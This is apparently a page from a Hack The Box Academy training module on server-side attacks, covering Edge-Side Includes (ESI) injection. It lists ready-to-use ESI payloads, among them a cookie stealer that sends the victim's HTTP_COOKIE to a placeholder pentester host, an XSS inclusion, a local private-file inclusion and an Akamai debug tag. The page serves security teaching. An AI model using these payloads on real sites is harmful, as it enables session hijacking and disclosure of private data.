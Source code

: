 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/145/section/1304
// Platform Version: V1
// Module ID: 145
// Module Name: Server-side Attacks
// Module Difficulty: Medium
// Section ID: 1304
// Section Title: Edge-Side Includes (ESI)
// Page Title: Server-side Attacks
// Page Number: 12
-->

# Edge-Side Includes (ESI)

**Module Name:** Server-side Attacks **Page Number:** 12

#### SERVER-SIDE ATTACKS

# Edge-Side Includes (ESI)

#### ESI Tags

``` html
// Basic detection
<esi: include src=http://<PENTESTER IP>>

// XSS Exploitation Example
<esi: include src=http://<PENTESTER IP>/<XSSPAYLOAD.html>>

// Cookie Stealer (bypass httpOnly flag)
<esi: include src=http://<PENTESTER IP>/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response
<esi:debug/>
```

####